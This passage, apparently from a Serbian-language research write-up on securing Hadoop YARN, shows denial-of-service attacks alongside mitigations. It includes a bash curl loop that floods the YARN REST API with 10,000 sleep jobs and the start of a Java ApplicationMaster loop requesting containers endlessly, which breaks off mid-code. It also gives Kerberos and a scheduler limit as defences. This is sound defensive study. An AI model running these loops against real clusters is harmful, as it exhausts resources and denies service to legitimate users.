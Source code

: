 #### ii.
Ovako bi mogao izgledati napad na _YARN REST API_. U pitanju je već viđena struktura, pri čemu je naglasak na tipu napada koji kreira veliku količinu nisko zahtevnih poslova.
``` sh
for i in $(seq 1 10000); do
    curl -X POST -H "Content-Type: application/json"               \
        -d '{
            "application-id": "job_'"$i"'",
            "application-name": "job_name_'"$i"'",
            "am-container-spec": {
                "commands": {
                    "command": ["sleep", "3600"]
                }
            },
            "max-app-attempts": 1,
            "resource": {
                "memory": 128,
                "vCores": 1
            }
        }'                                                         \
        --negotiate -u:                                            \
        http://edge-node:8088/ws/v1/cluster/apps/new-application
done
```
Zahvaljujući uvedenoj _Kerberos_ komponenti, ovakav napad ne može zaobići prethodno definisane bezbednosne kontrole.

Do sada uvedene bezbednosne kontrole u velikoj meri onemogućavaju konkretizacije _DOS_ napada. Moguće je definisati različite bezbednosne kontrole prema redovima i udelima korisnika u zauzeću resursa. 

<a id="M4122e"></a>
### M4122e - Ograničavanje broja simultanih poslova
Sledeća bezbednosna kontrola uvodi zaštitu u velikoj većini slučajeva. Reč je o definisanju bezbednosne kontrole reda u vidu maksimalnog broja paralelno pokrenutih poslova. 
``` xml
<property>
  <name>yarn.scheduler.capacity.root.naziv_reda.max-running-applications</name>
  <value>10</value> 
</property>
```
Nameće se ideja o personalizovanom ograničenju broja poslova po korisniku, bez obzira da li pripada ili ne pripada redu. Ovakva bezbednosna kontrola bi poslužila za personalizovano sankcionisanje zlonamernih ili pohlepnih korisnika, stoga će biti uvedena u nastavku istraživačkog rada.

## Izvršavanje napada od strane malicizone aplikacije

Sledeći primer ilustruje napad direktno iz aplikacije koja koristi _Hadoop_ klaster [[16]](#[16]). Dakle, nije u pitanju terminal sesija, ili javno dostupan _REST API_ servis. Radi se o napadu sa većom tehničkom složenošću. Suština je u pokretanju ogromnog broja kontejnera, uz direktnije obraćanje _ApplicationMaster_ komponenti. Ovde se ističe onaj deo granice poverenja koji se tiče zavisnosti ka drugim aplikacijama, a ne ljudima.
``` java
public class JobConfigurationByClientApp {
  public static void main(String[] args) throws Exception {
    
    AMRMClient<AMRMClient.ContainerRequest> rmClient = AMRMClient.createAMRMClient();
    rmClient.init(new YarnConfiguration());
    rmClient.start();
    rmClient.registerApplicationMaster("", 0, "");
    
    while (true) {
      for (int i = 0; i < 1000; i++) {
        Resource resource = Resource.newInstance(1024, 1);
```